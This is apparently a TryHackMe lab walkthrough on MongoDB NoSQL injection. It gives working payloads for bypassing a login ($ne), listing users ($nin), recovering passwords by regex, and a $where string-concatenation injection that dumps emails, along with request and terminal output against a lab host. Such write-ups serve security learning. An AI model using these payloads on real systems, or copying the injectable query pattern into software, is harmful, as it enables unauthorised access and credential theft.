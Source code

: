 ```yaml
---
title: NoSQL Injection
description: A walkthrough depicting basic NoSQL injections on MongoDB.
---
```


https://tryhackme.com/room/nosqlinjectiontutorial

A walkthrough depicting basic NoSQL injections on MongoDB.

## Operator Injection: Bypassing the Login Screen
Login screen:
![](../../../../public/images/THM_NoSQL_20250607%20_180950.png)

Login request
```http
POST /login.php HTTP/1.1
Host: 10.10.131.108
Content-Length: 38
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://10.10.131.108
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.131.108/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

user=admin&pass=pasword123&remember=on
```

Payload:
```
user[$ne]=xyz&pass[$ne]=xyz
```

Request
```http
POST /login.php HTTP/1.1
Host: 10.10.131.108
Content-Length: 39
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://10.10.131.108
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.131.108/?err=1
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

user[$ne]=xyz&pass[$ne]=xyz&remember=on
```

Return all user documents and as a result we are finally logged into the application:
![](../../../../public/images/THM_NoSQL_20250607%20_182746.png)
Logging in as the first user that the database returned.
## Operator Injection: Logging in as Other Users

Excluding admin user, using `$nin` (not in) operator, to get the next user from the next document
```
user[$nin][]=admin&pass[$ne]=dfdsf&remember=on
```

Found user "pedro", excluding "pedro" to find next user
```
user[$nin][]=admin&user[$nin][]=pedro&pass[$ne]=dfdsf&remember=on
```

Found user "john", excluding "john" to find next user
```
user[$nin][]=admin&user[$nin][]=pedro&user[$nin][]=john&pass[$ne]=dfdsf&remember=on
```
Found user "secret", excluding "secret" to find next user
```
user[$nin][]=admin&user[$nin][]=pedro&user[$nin][]=john&user[$nin][]=secret&pass[$ne]=dfdsf&remember=on
```

Server return invalid user and password which means there is no more users.

Total users are 4: admin, pedro, john and secret

## Operator Injection: Extracting Users' Passwords
Using regex to test the user's password length
```
user=john&pass[$regex]=^.{7}$&remember=on
```

The length is not 7 because the response returns `Location: /?err=1`
```http
HTTP/1.1 302 Found
Date: Sat, 07 Jun 2025 08:53:07 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: /?err=1
Content-Length: 0
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

```
Using intruder to cycle through the numbers shows the password is 8 characters long
![](../../../../public/images/THM_NoSQL_20250607%20_190614.png)

Guessing the password.
```
user=john&pass[$regex]=^c.......$&remember=on
```

John's password: `10584312`
![](../../../../public/images/THM_NoSQL%20_191413.png)

Pedro's password: `coolpass123`
![](../../../../public/images/THM_NoSQL_20250607%20_195147.png)

SSH with Pedro's creds
```bash
❯ ssh pedro@10.10.131.108                                                        
pedro@10.10.131.108's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-138-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro
Last login: Wed Jun 23 03:34:24 2021 from 192.168.100.250
```

```bash
pedro@ip-10-10-131-108:~$ la
.bash_history  .bash_logout  .bashrc  .cache  flag.txt  .profile  .viminfo
```

```bash
pedro@ip-10-10-131-108:~$ cat flag.txt
flag{N0Sql_n01iF3!}
```

**Flag** 
```
flag{N0Sql_n01iF3!}
```

## Syntax Injection: Identification and Data Extraction
Authenticating with the provided credentials
![](../../../../public/images/THM_NoSQL_20250607%20_195834.png)

```bash
syntax@10.10.131.108's password:
Please provide the username to receive their email:
```

Syntax injection test
```bash
~ ❯ syntax@10.10.131.108's password:
Please provide the username to receive their email:admin'
Traceback (most recent call last):
  File "/home/syntax/script.py", line 17, in <module>
    for x in mycol.find({"$where": "this.username == '" + username + "'"}):
  File "/home/syntax/venv/lib/python3.8/site-packages/pymongo/synchronous/cursor.py", line 1281, in __next__
    return self.next()
  File "/home/syntax/venv/lib/python3.8/site-packages/pymongo/synchronous/cursor.py", line 1257, in next
    if len(self._data) or self._refresh():
  File "/home/syntax/venv/lib/python3.8/site-packages/pymongo/synchronous/cursor.py", line 1205, in _refresh
    self._send_message(q)
  File "/home/syntax/venv/lib/python3.8/site-packages/pymongo/synchronous/cursor.py", line 1100, in _send_message
    response = client._run_operation(
  File "/home/syntax/venv/lib/python3.8/site-packages/pymongo/_csot.py", line 119, in csot_wrapper
    return func(self, *args, **kwargs)
  File "/home/syntax/venv/lib/python3.8/site-packages/pymongo/synchronous/mongo_client.py", line 1754, in _run_operation
    return self._retryable_read(
  File "/home/syntax/venv/lib/python3.8/site-packages/pymongo/synchronous/mongo_client.py", line 1863, in _retryable_read
    return self._retry_internal(
  File "/home/syntax/venv/lib/python3.8/site-packages/pymongo/_csot.py", line 119, in csot_wrapper
    return func(self, *args, **kwargs)
  File "/home/syntax/venv/lib/python3.8/site-packages/pymongo/synchronous/mongo_client.py", line 1819, in _retry_internal
    return _ClientConnectionRetryable(
  File "/home/syntax/venv/lib/python3.8/site-packages/pymongo/synchronous/mongo_client.py", line 2554, in run
    return self._read() if self._is_read else self._write()
  File "/home/syntax/venv/lib/python3.8/site-packages/pymongo/synchronous/mongo_client.py", line 2697, in _read
    return self._func(self._session, self._server, conn, read_pref)  # type: ignore
  File "/home/syntax/venv/lib/python3.8/site-packages/pymongo/synchronous/mongo_client.py", line 1745, in _cmd
    return server.run_operation(
  File "/home/syntax/venv/lib/python3.8/site-packages/pymongo/synchronous/helpers.py", line 45, in inner
    return func(*args, **kwargs)
  File "/home/syntax/venv/lib/python3.8/site-packages/pymongo/synchronous/server.py", line 227, in run_operation
    _check_command_response(first, conn.max_wire_version)
  File "/home/syntax/venv/lib/python3.8/site-packages/pymongo/helpers_shared.py", line 247, in _check_command_response
    raise OperationFailure(errmsg, code, response, max_wire_version)
pymongo.errors.OperationFailure: SyntaxError: unterminated string literal :
functionExpressionParser@src/mongo/scripting/mozjs/mongohelpers.js:46:25
, full error: {'ok': 0.0, 'errmsg': 'SyntaxError: unterminated string literal :\nfunctionExpressionParser@src/mongo/scripting/mozjs/mongohelpers.js:46:25\n', 'code': 139, 'codeName': 'JSInterpreterFailure'}
Connection to 10.10.131.108 closed.
```

Error shows the code where the variable is injected.
```bash
for x in mycol.find({"$where": "this.username == '" + username + "'"}):
```

The following is an example of how the query would look when manipulated to always return `true`:

```
this.username == 'admin' || '1' == '1'
```

From this, the injected payload would be:
```
admin' || '1' == '1
```

Result:
```bash
~ ❯ ssh syntax@10.10.131.108                                                     syntax@10.10.131.108's password:
Please provide the username to receive their email:admin' || '1' == '1
admin@nosql.int
pcollins@nosql.int
jsmith@nosql.int
Syntax@Injection.FTW
Connection to 10.10.131.108 closed.
```
